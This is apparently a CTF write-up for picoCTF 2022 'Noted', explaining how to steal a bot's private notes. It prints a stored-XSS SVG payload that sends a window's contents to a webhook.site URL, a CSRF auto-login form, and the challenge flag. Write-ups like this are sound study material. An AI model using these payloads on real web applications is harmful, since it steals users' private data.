   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. We can start by looking at some past challenges and writeups that dealed with Notes. After searching online for these type of past challenges, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Now we need to first see if our website is vurlnerable to XSS, so we can put in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

Now we have confirmed that our website is vurlnerable to XSS. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. At this point, I got multiple ideas on how to approach this. One of my initial plans was to directly fetch the notes of the bot, using the `fetch()` command, then taking that response, and sending it's text to our webhook which then would be the flag. But after trying it out, we would see that this would not work. After a lot of googling, we would see that this would be common in a lot of XSS challenges, and is caused by the CORS policy disabled. At this point, I tried searching up CORS Bypass, and got [Hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass) and got [Medium](https://medium.com/the-crazy-coder/a-comprehensive-understanding-of-cors-all-frontend-developers-better-to-have-3ae46d35f19e). Here, I went in to wrong direction for a while thinking that this would be a promising idea, and after a lot of frusteration I decided that this is not the right path, and decided to change my logic. I then looked back at those writeups I had searched up in the beginning, and saw that we can either use a iframe or window to have the notes, then we can login. We also have it a bit easy, because we automatically go to the notes of the user, after we login. So here, I thought that would it be possible to somehow access that window we had opened before logging in? After some testing, and searching up how Windows work. It turned out YES! We can access that window that we opened and we keep it open as we login. Then the XSS can access the previously opened page's content because of same-origin. So now putting together our small broken up steps to get our plan, we first open a window of the bot's notes, then we can login as our temporary user. This will then access our temporary user's notes, where we can do XSS, to open our previously opened window of the bot's notes, which we can then send to our webhook as a GET request, where we can get the flag. Now that we have the plan, it's time to implement this and put it together. We can start off with the code we're going to inject in the Report function. To login as our user, we can use the <form> and <input> tags, with them put together as
```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
```

Then we want want to open up a window, with the bots notes and submit the form. To open up a window we can use `window.open()`, and to submit the form we can use ``setTimeout(`WebsiteForm.submit(), 1000`)``. Putting this together, we get 

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

We also have to put this with data:text/html, so we actually get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

Now we need to create the XSS we will use in our notes of the temporary user. So searching this up [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting), we can abuse some html tag. I chose to abuse the <svg tag, but you can use anything. Now, we want to open the window that has the bot's notes, and somehow send it to our webhook. After thinking about it, I realized that I can put it in the request itself, by putting the url of the webhook, and concatenating it with the note text. Putting this together we get,

```html
<svg onload="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

Now we have our full payload, which *might* work. Let's try it out!

Putting our payload in our temporary user's notes: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.02.11%20PM.png)</p>

Putting our payload in the Report function: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.04.06%20PM.png)</p>
  
Webhook Request: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.05.36%20PM.png)

Url Decoding: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.07.43%20PM.png)
 
That's our flag! That's all for the writeup for Noted.
